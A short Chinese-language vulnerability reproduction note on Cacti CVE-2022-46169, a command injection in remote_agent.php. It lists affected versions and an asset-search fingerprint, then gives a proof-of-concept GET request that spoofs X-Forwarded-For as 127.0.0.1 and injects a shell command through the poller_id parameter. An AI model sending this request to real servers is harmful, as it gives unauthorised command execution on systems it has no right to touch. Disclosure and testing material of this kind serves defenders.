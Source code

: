# Cacti remote_agent.php 远程命令执行漏洞 CVE-2022-46169

## 漏洞描述

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

## 漏洞影响

<a-checkbox checked>Cacti < 1.2.17-1.2.22</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Cacti-监控系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1671182791178-ea22a02a-7451-4ad6-b9fb-03dcc3a17651.png)

验证POC

```python
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`id>1.txt`
X-Forwarded-For: 127.0.0.1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1671183300849-373782ab-7b1d-4166-88a7-34657bfb6025.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1671183331943-89eccd02-cf00-478f-8093-173a5c14bd47.png)